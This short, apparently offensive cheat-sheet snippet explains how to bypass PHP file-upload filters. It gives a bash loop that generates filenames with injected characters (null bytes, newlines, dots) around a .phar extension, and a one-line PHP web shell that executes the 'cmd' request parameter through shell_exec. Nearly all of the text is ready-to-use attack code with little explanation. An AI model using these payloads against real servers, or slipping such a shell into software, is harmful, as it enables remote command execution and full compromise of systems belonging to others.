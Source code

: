 Escape both whitelist and blacklist checks for php servers
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.phar'; do
        echo "test$char$ext.jpg" >> wordlist.txt
        echo "test$ext$char.jpg" >> wordlist.txt
        echo "test.jpg$char$ext" >> wordlist.txt
        echo "test.jpg$ext$char" >> wordlist.txt
    done
done
```

Example test.php

```php
<?php echo(shell_exec($_GET['cmd'])); ?>
```
